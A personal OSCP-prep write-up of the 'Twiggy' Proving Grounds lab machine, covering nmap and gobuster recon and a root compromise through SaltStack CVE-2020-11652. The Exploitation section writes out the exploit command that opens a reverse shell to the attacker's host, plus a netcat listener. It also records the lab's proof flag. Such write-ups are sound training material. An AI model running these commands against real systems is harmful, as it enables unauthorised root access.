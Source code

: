 ```yaml
---
Date: 2024-08-31
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: Complete
IP: 192.168.222.62
Writeup: https://systemweakness.com/twiggy-proving-grounds-oscp-prep-practice-easy-b6d9c05c3be4
---
```

# Twiggy

Went down the rabbit hole with port 80 & port 8000 too quickly, thinking this would require SQL injection or some sort of weird user enumeration to get into a web platform. 

Turns out the I needed to run nmap again with a full port scan (`-p- -T5`) and pick up ALL the ports before an aggressive service scan (`-A -p 22,55,ect`). 

2nd scan picked up `4505` and `4506` which correspond to ZeroMQ ZMTP 2.0 (saltStack). Looking up Saltstack showed a vulnerability (CVE-2020-11652)
# Resolution summary
- Basic Nmap scan, found 4 ports
	- Checked OpenSSH 7.4 but exploits wouldn't work (user enumeration)
	- Checked website (p=80) and found Mezzanine site
		- Attempted SQL through login
- Re-ran Nmap scan with `-p- -T` followed by `-A` for found ports
	- Identified 4505 & 4506 - ZeroMQ ZMTP 2.0 (SaltStack)
- Found python exploit for Saltstack
	- Checked python code
	- Ran netcat listener on port 80
	- Ran exploit - root on listener. 

## Improved skills
- ALWAYS run Nmap twice (and use `-p- -T5`)
- Try listening on a common port (eg. port 80) if your exploit doesn't initially work

## Used tools
- nmap
- gobuster: `gobuster dir -u  http://192.168.222.62:8000 -w //usr/share/dirb/wordlists/common.txt`

---

# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -T5 192.168.222.62
sudo nmap -p 22,53,80,4505,4506,8000 -A 192.168.222.62
```

Enumerated open TCP ports:
```
sudo nmap -p- -T5 192.168.222.62 
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

[686.7sec = 11.4mins]
---
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 3.X|4.X (88%), MikroTik RouterOS 6.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:mikrotik:routeros:6.15
Aggressive OS guesses: Linux 3.11 - 4.1 (88%), Linux 3.16 (88%), Linux 3.10 - 3.12 (86%), Linux 4.4 (86%), Linux 4.9 (86%), Linux 3.2.0 (85%), MikroTik RouterOS 6.15 (Linux 3.3.5) (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   604.31 ms 192.168.45.1
2   604.23 ms 192.168.45.254
3   604.32 ms 192.168.251.1
4   604.40 ms 192.168.222.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.04 seconds
```

---

# Enumeration
## Port 22 - OpenSSH 7.4 (protocol 2.0)
## Port 55 - NLnet Labs NSD
## Port 80 - HTTP (nginx 1.16.1)
Mezzanine website
![[Cybersecurity-Resources/images/Pasted image 20240831212036.png]]
Login page
![[Cybersecurity-Resources/images/Pasted image 20240831212120.png]]
## Port 4505 - ZeroMQ ZMTP 2.0 (SaltStack)
## Port 4506 -  ZeroMQ ZMTP 2.0 (SaltStack)
## Port 8000 - HTTP (Apache)
`gobuster dir -u  http://192.168.222.62:8000 -w //usr/share/dirb/wordlists/common.txt
![[Pasted image 20240831200454.png]]`http:\\192.168.222.62:8000\index` (Same as `login` and `run`)
![[Cybersecurity-Resources/images/Pasted image 20240831200636.png]]
# Exploitation
## Name of the technique
https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py

Exploit: `python 48421.py --master 192.168.222.62 --port 4506 -lh 192.168.45.246 -lp 80 --exec-choose master`
Caught reverse shell with NetCat on port 80: `nc -lvnp 80`

---
# Lateral Movement
## Local Enumeration
Not required (logged in as root)
## Lateral Movement vector
Not required (logged in as root)

---
# Privilege Escalation
Not required (logged in as root)

---
# Trophy & Loot
proof.txt - a985dd04611192b6db023d6f877a1503